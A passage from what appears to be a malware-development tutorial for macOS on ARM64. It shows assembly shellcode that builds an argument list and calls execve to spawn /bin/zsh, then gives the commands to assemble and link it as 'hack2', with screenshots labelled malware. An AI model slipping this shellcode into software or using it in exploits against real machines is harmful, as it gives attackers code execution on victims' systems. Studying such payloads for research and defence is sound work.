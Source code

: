 ```nasm
  stp     x3, xzr, [sp, #-16]!        ; push path and null terminator
  add     x0, sp, xzr                 ; x0 = "/bin/zsh"
  stp     x0, xzr, [sp, #-16]!        ; push argv = {"/bin/zsh", null}
  add     x1, sp, xzr                 ; x1 = argv
  mov     x2, xzr                     ; x2 = envp = null
  mov     x16, #59                    ; bsd syscall: execve (59)
  svc     #0xffff                     ; call kernel
```

### demo 2

Compile:    

```bash
as -arch arm64 hack2.s -o hack2.o
```

![malware](/assets/images/176/2025-09-02_11-29.png){:class="img-responsive"}    

then linking:     

```bash
ld -arch arm64 -e _start -o hack2 hack2.o -lSystem -syslibroot $(xcrun --sdk macosx --show-sdk-path)
```

![malware](/assets/images/176/2025-09-02_11-30.png){:class="img-responsive"}    
